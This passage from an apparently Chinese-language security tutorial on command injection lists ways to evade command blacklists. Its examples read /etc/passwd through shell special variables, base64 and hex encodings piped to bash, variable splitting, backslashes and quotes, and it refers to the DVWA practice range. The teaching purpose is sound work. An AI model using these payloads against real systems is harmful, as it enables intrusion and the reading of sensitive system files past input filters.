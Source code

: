 ```java
{cat,etc/passwd}
```

这个依赖 bash 环境，并不是那么通用的方式，比如在 DVWA 靶场中就不适用。  
**（3）黑名单绕过**

绕过黑名单就是先探测哪些是黑名单，尽量避开不用，如果还不行可以考虑以下方法。

* **shell 特殊变量**

先看下 shell 中的一些特殊变量：

![图片5.png](https://s0.lgstatic.com/i/image/M00/92/B4/Ciqc1GASi7mASyv4AAFgvRQXlzo668.png)  

比如 cat 命令被禁，利用上述特殊变量，我们就可以这样构造来绕过：

```java
ca$1t /etc/passwd
cat$*t /etc/passwd
ca$@t /etc/passwd
```

* **编码绕过**

直接将命令字符串转换成 URL 编码、hex 码、base 64 等编码，再转换回来执行：

```shell
# Base64编码命令"cat /etc/passwd"
echo "Y2F0IC9ldGMvcGFzc3dk"|base64 -d|bash
# Hex编码命令"cat /etc/passwd"
echo "636174202f6574632f706173737764"|xxd -r -p|bash
$(printf "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
# URL编码
cat%20%2Fetc%2Fpasswd
```

* **变量自定义**

将黑名单内容拆分到不同的变量，再拼接起来执行。

```java
a=c;b=at;c="/etc/passwd";$a$b $c
```

* **反斜杠**

反斜杠的作用就是转义，因此可用来拆分黑名单字符串，但又不影响结果。

```java
c\a\t /et\c/pas\s\wd
```

* **单双引号**

单双引号内的内容会被当作字符串处理，跟其他字符串可拼接出我们需要的命令行字符串。

```java
c"a"t /et''c/p'a'sswd
```

### 挖掘命令注入漏洞
